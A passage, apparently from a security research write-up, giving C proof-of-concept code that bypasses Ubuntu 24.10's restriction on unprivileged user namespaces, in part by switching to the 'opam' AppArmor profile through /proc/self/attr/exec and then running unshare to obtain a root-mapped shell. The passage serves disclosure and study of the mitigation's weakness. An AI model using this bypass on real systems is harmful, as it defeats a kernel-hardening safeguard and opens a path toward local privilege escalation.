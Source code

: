The following example code uses two methods to create an unprivileged user namespace on Ubuntu 24.10. The tested version is Ubuntu 24.10 (6.11.0-14-generic), and the test date is February 17, 2025.

``` c
#define _GNU_SOURCE
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

void perror_exit(const char *msg)
{
    perror(msg);
    exit(1);
}

void unshare_setup(uid_t uid, gid_t gid)
{
    int temp, ret;
    char edit[0x100] = {};
    ret = unshare(CLONE_NEWNET | CLONE_NEWUSER);
    if (ret < 0) perror_exit("unshare");
    
    temp = open("/proc/self/setgroups", O_WRONLY);
    if (temp < 0) perror_exit("open /proc/self/setgroups");
    
    write(temp, "deny", strlen("deny"));
    close(temp);
    
    temp = open("/proc/self/uid_map", O_WRONLY);
    if (temp < 0) perror_exit("open /proc/self/uid_map");
    
    snprintf(edit, sizeof(edit), "0 %d 1", uid);
    write(temp, edit, strlen(edit));
    close(temp);

    temp = open("/proc/self/gid_map", O_WRONLY);
    if (temp < 0) perror_exit("open /proc/self/gid_map");
    
    snprintf(edit, sizeof(edit), "0 %d 1", gid);
    write(temp, edit, strlen(edit));
    close(temp);
    return;
}

const char profile1[] = "exec opam";
const char profile2[] = "changeprofile opam";
char buf[0x100];

void func_1()
{
    int ret;
    int fd = open("/proc/self/attr/exec", O_RDWR);
    if (fd < 0) perror_exit("open /proc/self/attr/exec");

    ret = write(fd, profile1, sizeof(profile1));
    close(fd);

    char *const _argv[] = {"/usr/bin/unshare", "-r", "-n", "-m", "/bin/bash", NULL};
    char *const _envp[] = {NULL};
    execve("/usr/bin/unshare", _argv, _envp);
}
```
